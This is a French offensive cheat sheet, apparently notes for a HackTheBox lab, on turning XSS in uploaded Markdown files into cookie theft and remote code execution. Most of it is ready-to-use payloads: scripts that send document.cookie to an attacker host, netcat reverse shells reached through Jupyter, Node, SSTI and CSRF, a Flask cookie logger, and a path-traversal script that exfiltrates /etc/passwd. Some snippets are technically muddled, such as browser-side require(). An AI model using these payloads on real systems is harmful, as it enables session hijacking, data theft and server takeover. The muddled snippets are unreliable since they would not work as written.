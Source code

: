 # Exécuter le XSS avec les fichiers au format .md


Lors du téléchargement d'un fichier qui peut être traité par le serveur au format HTML, nous devons garder à l'esprit que tout ce qui se déroule en HTML est probablement vulnérable à XSS (exécution de javascript).

Le fichier markdown est un fichier d'usage courant principalement dans github avec l'extension ".md" (README) dont le but est de décrire un procéssus, une installation etc... une fois ce fichier soumis au serveur, certains serveurs peuvent procéder comme du HTML avant de le stocker. Là, nous pouvons effectuer du XSS comme suit :



📜 Exploit 1️⃣ : XSS avec Markdown → RCE via JavaScript

Si le serveur convertit le Markdown en HTML mais ne filtre pas les balises <script>, on peut injecter du JS malveillant :

# Test d'Injection XSS
<script>
    fetch("http://ton-serveur.com/steal?cookie=" + document.cookie);
</script>

➡️ Impact : Récupération des cookies de session, potentiellement utilisables pour hijacker une session.



📜Exploit 2️⃣ : Injection de code dans un Notebook Jupyter

Si le Markdown est utilisé dans Jupyter Notebook, tu peux exécuter du Python directement :

```python
import os
os.system("nc -e /bin/bash TON_IP TON_PORT")

➡️ **Impact :** Remote Code Execution (RCE) si le serveur exécute le Markdown dans un environnement Jupyter.  

---

### **📜 Exploit 3️⃣ : Inclusion de fichiers (`LFI`)**
Si le serveur permet d'inclure du Markdown à partir d'un chemin local, tu peux essayer ceci :

```markdown
![LFI Test](file:///etc/passwd)

➡️ Impact : Lecture de fichiers système sensibles. Si combiné avec RCE, on peut exécuter du code.


📜 Exploit 4️⃣ : Injection Bash via Markdown dans un CMS

Si le serveur exécute des commandes Markdown dans un CMS comme Ghost, certains supports comme Mermaid.js permettent d’exécuter du JavaScript :

```mermaid
graph TD;
A[Click Me] -->|XSS| B("alert('Hacked!')");

➡️ **Impact :** Possibilité de RCE si le serveur exécute du JavaScript malveillant.  

---






📜 Exploit : XSS pour exfiltrer les cookies

Crée un fichier exploit.md avec le contenu suivant :

# Exploit XSS - Vol de Cookies

<script>
  fetch("http://TON_IP:TON_PORT/cookie?data=" + document.cookie);
</script>

🔹 Étapes d'exploitation :

1️⃣ Lancer un serveur d'écoute sur ta machine pour capturer les cookies :

nc -lvnp 9001

2️⃣ Héberger exploit.md sur la cible et le faire afficher dans un navigateur.

3️⃣ Si le XSS fonctionne, le navigateur de la victime exécutera le script et enverra les cookies sur ta machine.

4️⃣ Les cookies s’affichent dans ton Netcat.
🔹 Améliorations possibles :

    Utiliser une requête AJAX invisible pour envoyer les cookies sans alerter l’utilisateur :

<script>
  var i = new Image();
  i.src = "http://TON_IP:TON_PORT/cookie?data=" + document.cookie;
</script>

    Créer un serveur Flask pour loguer les cookies :

from flask import Flask, request

app = Flask(__name__)

@app.route('/cookie')
def log_cookie():
    cookie = request.args.get('data')
    print(f"Cookie volé : {cookie}")
    return '', 204  # Réponse vide

app.run(host='0.0.0.0', port=9001)








🔥 Méthodes pour obtenir un reverse shell via XSS
1️⃣ Si la cible utilise eval() en JavaScript (Exécution locale)

Si l'application exécute du JS avec eval(), tu peux injecter un reverse shell via WebSockets ou fetch :

<script>
eval(require('child_process').execSync('nc -e /bin/bash TON_IP TON_PORT'));
</script>

📌 Problème : Peu de serveurs utilisent eval() dans du JS exécuté côté serveur.
2️⃣ Exploiter une API REST vulnérable

Si l'application fait des requêtes vers une API qui exécute des commandes, tu peux envoyer une requête malveillante avec XSS :

<script>
fetch("http://alert.htb/api/run?cmd=nc -e /bin/bash TON_IP TON_PORT");
</script>

📌 Utile si l’application a une fonctionnalité "Exécuter une commande"
3️⃣ Si le serveur utilise Node.js avec une vulnérabilité dans res.send()

Si l'application tourne sur Node.js et expose des routes vulnérables, essaie :

<script>
fetch("http://alert.htb/admin?name='+require('child_process').exec('nc -e /bin/bash TON_IP TON_PORT')+'");
</script>

📌 Exploitable si le serveur construit dynamiquement des réponses HTML avec des entrées non filtrées.
4️⃣ Transformer l’XSS en SSTI (Server-Side Template Injection)

Si l’application utilise Jinja2, Twig, ou EJS, tu peux injecter une RCE via SSTI :

{{ self._TemplateReference__context.cycler.__init__.__globals__.os.system("nc -e /bin/bash TON_IP TON_PORT") }}

📌 À tester si l’XSS peut être inséré dans une page qui utilise un moteur de template.
5️⃣ Exploiter un administrateur connecté (CSRF + XSS)

Si un admin est connecté, tu peux utiliser l'XSS pour lui faire exécuter un script qui déclenche une RCE sur le serveur via une page vulnérable :

<script>
fetch("http://alert.htb/admin/run?cmd=nc -e /bin/bash TON_IP TON_PORT", { credentials: "include" });
</script>

📌 Fonctionne si l’admin a plus de privilèges et que l'application a une page de gestion de commandes.




<script>
    var url = "messages.php?file=../../../../../../../etc/passwd"
    var attacker = "http://<your-ip-address>:4444/exfil"
    var xhr = new XMLHttpRequest()
    xhr.onreadystatechange = function () {
      if (xhr.readyState == XMLHttpRequest.DONE) {
        fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
      }
    }
    xhr.open("GET", url, true)
    xhr.send(null)
</script>

